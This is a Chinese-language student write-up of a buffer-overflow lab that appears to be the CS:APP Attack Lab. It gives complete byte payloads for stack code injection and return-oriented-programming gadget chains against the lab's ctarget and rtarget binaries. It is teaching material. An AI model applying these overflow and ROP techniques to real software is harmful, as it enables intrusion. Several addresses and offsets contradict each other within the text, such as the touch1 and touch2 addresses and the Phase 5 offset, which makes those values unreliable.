


Lab3
Part 1
Phase 1
在 ctarget 中从 getbuf 函数进入 touch1 函数。
首先要了解函数调用和返回，与栈空间的关系。
在本实验的情境下，栈空间有这样的结构

正常流程下：
call指令会将自身的下一句指令的地址压入栈中，作为未来的返回地址，紧接着将寄存器%rip指向要调用的函数的入口，将控制转移到该函数。ret指令会弹出栈顶中存储的8字节数值，作为返回地址，将%rip指向它并将控制转移到这个地址。- 流程如下，省略了函数中部分无关指令
0000000000401968 <test>:
401968: sub $0x8,%rsp 1. push 0x401976 to stack
40196c: mov $0x0,%eax movq 0x4017a8 to %rip
401971: call 4017a8 <getbuf> >--------------------+
+--------------------> 401976: mov %eax,%edx |
| 401978: mov $0x403188,%esi |
| ... |
| |
| 00000000004017a8 <getbuf>: <----------------------+
| 4017a8: sub $0x28,%rsp |
| 4017ac: mov %rsp,%rdi |
| 4017af: call 401a40 <Gets> |
| 4017b4: mov $0x1,%eax | 2. Running getbuf function
| 4017b9: add $0x28,%rsp |
+--------------------< 4017bd: ret v
3. pop 0x401976 from stack
movq it to %rip ...
目的是在 getbuf 函数中输入字符串，使得它不会在 0x4017bd 处 ret 时回到 test 函数，而是直接进入 touch1 函数。
由于 ret 指令会从栈顶获取返回地址作为控制转移的目标，因此如果可以将栈顶地址篡改为 touch1 函数的入口地址，则可以直接进入 touch1 函数。
注意到 getbuf 函数中输入的字符串正是存放在栈中，和返回地址紧邻，如果输入的字符串足够长，会直接发生数组越界，覆盖掉栈深处的其它信息，其中首当其冲的便是 getbuf 的 ret 的返回地址。
因此便需要输入这样的字符串，前 40 个字节可以任意填写，用于填充字符数组，接下来需要额外输入 8 字节的一个地址，使返回地址成为 touch1 函数的地址 0x4017c0。
即如下结构

另外注意小端法机器，低位数字在低位地址，因此需要输入的地址需要倒序排列。
字符串中每个字符内容如下（以 16 进制的 ascii 码表示）：
buf[40] = { /* Phase 1 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 以下 40 字节为填充字符，内容任意 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch1 函数的地址 */
}
使用 hex2raw 将这串十六进制数字转化为文本作为输入即可
Phase 2
整体目标和 Phase 1接近，但是需要在进入函数前将 %rdi 置为 cookie 值，即 0x59b997fa
因此需要在串中注入一段指令并使得程序先执行这段指令，再进入 touch2。
使用手册中给出的方法，首先写好指令的汇编码，再利用 gcc 和 objdump 得到它的二进制机器码。
汇编码和机器码如下
movq $0x59b997fa, %rdi
48 c7 c7 fa 97 b9 59
要将它注入程序中，最显而易见的方式便是在输入字符串中输入这串数字（的 ascii 码对应的字符）。
接下来要关注的便是如何使程序按照设想的方式转移控制。
唯一能利用的篡改控制转移的方法仍然是篡改 ret 获取的返回地址。但这次需要进行两次控制转移。一次是转移到注入的指令处，第二次是转移到 touch2。
要实现第一次转移，只要使（在getbuf 中执行 ret 之前）栈顶返回地址为注入指令的地址，但要实现第二次转移，即从注入指令转移到 touch2，需要使这时的栈顶为 touch2 的地址。
很有用的事实是，ret 函数除了会将栈顶内容存入 %rip 外，还会将它从栈顶弹出，这样，栈顶自然成为它之后的下一个数字。
也就是说，如果将两个地址先后放在数组后面，在第一次转移前栈顶为注入指令的地址，转移后栈顶便会自然指向 touch2，在注入指令中添加上 ret，它会自然得到 touch2 的地址，并进入 touch2。
也就是如下的汇编码
movq $0x59b997fa, %rdi
ret
得到的机器码为
0: 48 c7 c7 fa 97 b9 59 mov $0x59b997fa,%rdi
7: c3 ret
将它写入输入字符串中，40 字节后加上它的地址（字符数组的地址）与 touch2 的地址。
如何获取注入指令的地址？
注意到，输入的字符串也是存在栈中的，在输入完成之后（执行其它指令之前），它的地址就是栈顶地址。
使用 gdb 进入程序，在 getbuf 时使用 print $rsp 便可获得字符串地址。当然，也可以使用 x/s $rsp 测试。

得到 %rsp 的值，将它加上注入指令在字符串中的位置（偏移量），便得到注入指令的位置，将它放在串的后面。最简单的情况当然就是指令在字符串的开头，地址正是 %rsp。
结构如下

再次注意小端法！！
buf[40] = { /* Phase 2 */
0x48, 0xC7, 0xC7, 0xFA, 0x97, 0xB9, 0x59, 0xC3, /* 这 8 字节为注入指令 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 以下 32 字节内容任意 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
}
Phase 3
这次同样需要将 %rdi 修改，但是需要改成一个地址，而这个地址指向的是存放有 cookie 的字符数组。
指令注入与转移部分保持不变，这次要考虑 cookie 数组的存放位置，只要将这个位置（替代 Phase 2 中 cookie 本身）存入 %rdi 中即可。
很显然的，cookie 数字直接放在输入串中即可，当然还有结尾的 '\0'。
再将串中注入的 movq 指令的操作数，从 cookie 本身，改为对应的地址。
关于 cookie 地址的获取，由于同样是在输入串中，和 Phase 2 中指令地址的获取并无不同，只需确保它们在输入串中的位置，和地址的偏移量正确即可。
假设 cookie 串在输入串的下标 8 的位置，那么 movq 的操作数便是 %rsp + 8，输入串末尾的返回地址同理，根据注入指令的位置做适当的偏移即可。
buf[40] = { /* Phase 3 ver.1*/
0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
0xFA, 0x97, 0xB9, 0x59, 0x00, 0x00, 0x00, 0x00, /* 这里是 cookie */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
}
提交，发现不对
?
回头思考，8 位的 cookie 应该是 8 字节长，但却只用了 4 字节。原来是应该把数字用 ascii 码转化为字符形式作为输入，错误的直接用数字本身输入了。
使用命令 man ascii 查看 ascii 码表，将其对应得放入输入串中即可。
buf[40] = { /* Phase 3 ver.2 */
0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, /* 这里是字符 cookie */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
}
提交仍然报错，而且这次的报错信息（Misfire 后括号中的输入函数的变量内容）和上次相同 ??aU 。
说明和具体输入串内容无关，应该是在某处，输入串被修改为其它内容，导致后续判断不通过。
重新回看手册，发现在 Phase 3 部分有一个另外的函数 hexmatch，函数目的是检查输入的串和数字是否相符。其中函数创建了 char cbuf[110]，用于随机化对比串。
函数在 touch3 中被调用，此时 getbuf 中的 buf 数组已不在栈中，现在的 touch3 以及其调用的 hexmatch（以及可能的其他函数）都会重新申请栈空间，将原本的内容覆盖掉。
或许找到了出错的原因，hexmatch 等函数申请栈空间将存储在 buf 数组中的 cookie 数组覆盖掉了，导致判断不正确。
此时可以在 hexmatch 前后分别检查 buf 数组的内容，如果发生变化说明确实是这样的原因


可以看到，hexmatch 函数在执行时，buf 数组的内容被覆盖掉了，导致判断不正确。
所以 cookie 数组不能存在 buf 数组里。
如何解决？
只需要绕过会被覆盖掉的 buf 就好了，那就不要把 cookie 数组放在 buf 数组里。
由于输入只能向栈深处输入（事实上可以实现在栈外存数据，但较为繁琐），且不能保证 buf 数组中的具体安全区域（似乎 buf 数组的前 8 个字节是安全的，但没尝试，直接选择了放在数组外），因此选择向深处存放 cookie 数组。
向输入串结尾的两个返回地址后面继续添加，将 cookie 串放在返回地址后面，事实上这里不会被覆盖掉。
图片省略
buf[40] = { /* Phase 3 ver.fin */
0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
0xFA, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, /* 这里是字符 cookie */
}
Part 2
从 Phase 4 开始，攻击的程序为 rtarget
这个程序相较于 ctarget，去除了固定栈空间的操作，使得栈在内存中的位置随机。所以不能使用注入指令的方式，因为找不到指令的地址，不能跳转。
另外，程序将栈空间标记为不可执行，所以即使注入了指令，程序也不会允许栈空间的指令执行。所以原本的注入指令的方法将不可用。
但相对的，程序中提供了一些内置函数，通过将内置函数的指令 “在内部开始” 执行，可以让内置函数有一些额外的效果。
例如原本的获取特定数值的函数
void setval_210(unsigned *p) { *p = 3347663060U; // 0xc78948d4 }它的汇编和机器码指令为
0000000000400f15 <setval_210>: 400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi) 400f1b: c3 retq正常情况下指令会从
400f15开始解释，整个函数会将传入的指针指向的无符号整型变量赋值为3347663060。但是由于有意设置常数，使得从特定位置开始解释指令会实现不同效果，例如如果从400f18开始解释，指令48 89 c7会实现movq %rax,%rdi的效果，将这样一个 “特殊解释的” 指令，再加上后面的c3 ret指令，这一段被称作一个gadget。
rtarget 中提供了一些类似的函数，需要在函数中寻找不同的 gadget，利用函数返回的 ret 指令，通过修改返回地址，进而执行各个 gadget，实现想要的操作，最终实现攻击效果。
Phase 4
目标和 Phase 2 一样，需要将 %rdi 设置为 cookie 的值。
首先在 farm 中寻找会修改 %rdi 的指令。
在手册中给出的 movl 和 movq 指令机器码表中寻找目的操作数为 %rdi 的，再对应到 farm 的反汇编码中寻找。实现使用 gcc 和 objdump 得到 farm.c 的反汇编代码。
比如找到的
00000000004019a7 <addval_219>:
4019a7: 8d 87 51 73 58 90 lea -0x6fa78caf(%rdi),%eax
4019ad: c3 ret
# 4019ab: 58 pop %rax
# 4019ac: 90 nop
# 4019ad: c3 ret
以及
00000000004019a0 <addval_273>:
4019a0: 8d 87 48 89 c7 c3 lea -0x3c3876b8(%rdi),%eax
4019a6: c3 ret
# 4019a2: 48 89 c7 movq %rax,%rdi
# 4019a5: c3 ret
所以如果可以利用 pop 将 %rax 赋值，再利用 movq 赋值给 %rdi，即可实现目标。
pop 指令的效果是将当前栈顶（%rsp 的指向位置）弹出，并赋值给它的操作数，所以 pop %rax 会把当前的栈顶赋值给 %rax。可以想到这样的流程：
- 首先利用
ret进入0x4019ab，在这里将栈顶的cookie弹出； - 再
ret到0x4019a2，赋值给%rdi； - 然后再
ret到touch2中完成目标。
和 Part 1 使用同样的方法，将需要的内容输入即可，以上三步需要的指令和数值利用数组越界输入。
buf[40] = { /* Phase 4 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 这里 40 字节为任意内容 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0xAB, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 首先 ret 到 0x4019ab */
0xFA, 0x97, 0xB9, 0x59, 0x00, 0x00, 0x00, 0x00, /* 此时栈顶为 cookie，pop 给 %rax */
0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* ret 到 0x4019a2，在这里赋值给 %rdi */
0xEC, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 最后 ret 到 touch2 */
}
Phase 5
和 Phase 3 相似。将 %rdi 赋值为 存储有 cookie 字符数组的地址，然后进入 touch3。
首先仍然要将数组放在输入串中的某个位置，吸取 Phase 3 的教训，将数组放在整个输入串的末尾，但问题就在于如何获得输入串的地址，特别是 cookie 数组的地址。
输入串在栈中，因此必然要得到栈地址，即 %rsp。直接使用正则表达式搜索 48 89 e[0-7]，将 %rsp 作为源操作数的 movq 指令的 gadget 仅找到
0000000000401a03 <addval_190>:
401a03: 8d 87 41 48 89 e0 lea -0x1f76b7bf(%rdi),%eax
401a09: c3
# 401a06: 48 89 e0 movq %rsp,%rax
# 401a09: c3 ret
但这只是栈顶地址，并非字符数组地址，希望获得字符数组地址需要一次偏移量运算，也就要利用提供的 add_xy 的完整函数，将栈顶地址和偏移量作为输入计算得到字符数组地址。add_xy 接受 %rdi %rsi 作为源操作数，返回 %rax 作为结果。
所以栈地址仅存放在 %rax 中不可行，需要再将它存入 %rsi 或 %rdi 中，再寻找从 %rax 输出的指令，搜索 89 c[0-7]，找到
00000000004019a0 <addval_273>:
4019a0: 8d 87 48 89 c7 c3 lea -0x3c3876b8(%rdi),%eax
4019a6: c3 ret
# 4019a2: 48 89 c7 movq %rax,%rdi
# 4019a5: c3 ret
这时栈地址已经在 %rdi 中，还需要获取偏移量并存入 %rsi。
获取偏移量仍然要使用 pop 指令，直接使用正则表达式搜索 5[8-f] 仅能找到 pop %rbp 和 pop %rax 这两个指令，其中搜索 89 e[8-f] 找不到结果，所以 %rbp 不能赋值给其它寄存器，只能使用 pop %rax，比如 Phase 4 中使用的 0x4019ab。
没有 %rsi 的出现，要用 mov 做中转，搜索 89 c[0-6]（因为 89 c7 是指向 %rdi 而它已经被使用了），只能得到 89 c2 movl %eax,%edx 这一个结果，它位于
00000000004019db <getval_481>:
4019db: b8 5c 89 c2 90 mov $0x90c2895c,%eax
4019e0: c3
# 0x4019dd: 89 c2 movl %eax,%edx
# 0x4019df: 90 nop
# 0x4019e0: c3 ret
搜索 89 d[0-6] 只能找到 89 d1 movl %edx,%ecx，但在这里有另一件事情需要解决：
可以找到的
89 d1指令中，不存在89 d1后跟随90 nop指令的gadget，可以找到的89 d1指令如下：00000000004019f6 <getval_226>: 4019f6: b8 89 d1 48 c0 mov $0xc048d189,%eax 4019fb: c3 ret # 4019f7: 89 d1 movl %edx,%ecx # 4019f9: 48 c0 ??? unknown # 4019fb: c3 ret 0000000000401a33 <getval_159>: 401a33: b8 89 d1 38 c9 mov $0xc938d189,%eax 401a38: c3 ret # 401a34: 89 d1 movl %edx,%ecx # 401a36: 38 c9 cmpb %cl,%cl # 401a38: c3 ret 0000000000401a68 <getval_311>: 401a68: b8 89 d1 08 db mov $0xdb08d189,%eax 401a6d: c3 ret # 401a69: 89 d1 movl %edx,%ecx # 401a6b: 08 db orb %bl,%bl # 401a6d: c3 ret 0000000000401a6e <setval_167>: 401a6e: c7 07 89 d1 91 c3 movl $0xc391d189,(%rdi) 401a74: c3 ret # 401a70: 89 d1 movl %edx,%ecx # 401a72: 91 ??? unknown # 401a73: c3 ret其中第二、三个
gadget在手册中有提及，相当于nop指令，剩余两个通过查阅资料了解到第一个指令不完整，第三个的91是交换%eax和%ecx的指令xchg，后面会提到，它可以用来缩短答案。
因此从第二、三个 gadget 中选择一个，将 %edx 赋值给 %ecx，仍然需要下一次转移，搜索 89 c[8-f] 找到
0000000000401a25 <addval_187>:
401a25: 8d 87 89 ce 38 c0 lea -0x3fc73177(%rdi),%eax
401a2b: c3 ret
# 401a27: 89 ce movl %ecx,%esi
# 401a29: 38 c0 cmpb %al,%al ---> 等价于 nop
# 401a2b: c3 ret
至此，经过 %rax，%edx 和 %ecx 三个寄存器的中转，终于将偏移量赋值给了 %rsi，再进入 add_xy 函数计算出字符数组地址在 %rax 中。再次使用 0x4019a2 即可存入 %rdi，然后 ret 到 touch3 完成目标。
综上，先统计需要的 gadget：
- 0x401a06 :
movq %rsp,%rax - 0x4019a2 :
movq %rax,%rdi - 0x4019ab :
pop %rax - 0x4019dd :
movl %eax,%edx - 0x401a34 :
movl %edx,%ecx - 0x401a27 :
movl %ecx,%esi - 0x4019d6 :
add_xy - 0x4019a2 :
movq %rax,%rdi
总共 8 个 gadget，恰好和手册中的答案一致。
将它们依次排入输入串中，注意，在 0x4019ab 之后，0x4019dd 之前，需要输入字符数组相对于 %rdi 的偏移值，这样才能在真正执行 pop 指令时让偏移值位于栈顶。另外不要忘掉所有 gadget 之后需要 touch3 的地址 0x4018fa。
关于偏移量的值，可以参考栈结构如下

由于，在进入 gadget 1，执行指令之前，gadget 1 的地址已经被弹出， %rsp 的指向处于图中 0x30 处。cookie 的实际地址则在 0x78 处，所以偏移量应当为 0x48
综上得到输入串如下：
buf[40] = { /* Phase 5 ver 1 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* padding */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x06, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 1 */
0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 2 */
0xAB, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 3 */
0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, /* offset */
0xDD, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 4 */
0x34, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 5 */
0x27, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 6 */
0xD6, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 7 */
0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 8 */
0xFA, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* touch3 */
0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61 /* cookie */
};
至此 Phase 5 已经完成。
但是回到上文说到的
91 xchg指令，它的效果是交换%eax和%ecx，而刚才的答案中，用上了movl %eax,%edx和movl %edx,%ecx，两个指令实现了%eax向%ecx的转移，是否可以使用一个xchg指令来代替这两个呢？
找到 xchg 指令的地址
0000000000401a6e <setval_167>:
401a6e: c7 07 89 d1 91 c3 movl $0xc391d189,(%rdi)
401a74: c3 ret
# 401a72: 91 xchg %eax,%ecx
# 401a73: c3 ret
尝试使用 0x401a72 地址，代替上述两个 movl 指令，因为少了一个指令所以偏移量 - 0x8，得到输入串如下：
buf[40] = { /* Phase 5 ver 2 */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* padding */
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
0x06, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 1 */
0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 2 */
0xAB, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 3 */
0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, /* offset */
0x72, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 4 & 5*/
0x27, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 6 */
0xD6, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 7 */
0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* gadget 8 */
0xFA, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* touch3 */
0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61 /* cookie */
};
尝试提交

成功，这个答案比上一个答案少了一个 gadget，少了一行的输入。
综上全部的 Phase 都已经完成